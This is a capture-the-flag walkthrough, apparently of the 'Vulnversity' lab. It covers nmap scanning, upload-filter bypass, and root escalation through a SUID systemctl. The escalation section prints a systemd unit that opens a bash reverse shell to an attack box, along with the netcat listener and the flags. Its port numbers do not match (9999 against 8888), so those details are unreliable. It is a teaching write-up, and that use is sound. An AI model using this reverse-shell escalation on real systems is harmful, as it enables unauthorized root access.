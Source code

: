 # Reconnaissance

### Scan the box, how many ports are open?
```
# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer:* 6

### What version of the squid proxy is running on the machine?
```
# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer:* 3.5.12

### How many ports will nmap scan if the flag -p-400 was used?
> *Answer:* 400

### Using the nmap flag -n what will it not resolve?
> *Answer:* DNS

### What is the most likely operating system this machine is running?
```
# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* Ubuntu

### What port is the web server running on?
```
# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* 3333


# Locating directories

### What is the directory that has an upload form page?
```
# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer:* /internal/

# Compromise the webserver

### Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer:* .php

### Run this attack, what extension is allowed?
> *Answer:* .phtml

### What is the name of the user who manages the webserver?
```
$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer:* bill

### What is the user flag?
```
$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer:* 8bd7992fbe8a6ad22a63361004cfcedb

# Privilege Escalation

### On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer:* /bin/systemctl

### Become root and get the last flag (/root/root.txt)
```
/var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ip_address_of_my_attackbox/9999 0>&1'

[Install]
wantedBy=multi-user.target
# systemctl restart apache2
$ cd /tmp
$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root.service
# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer:* a58ff8579f0a9270368d33a9966c7fd5



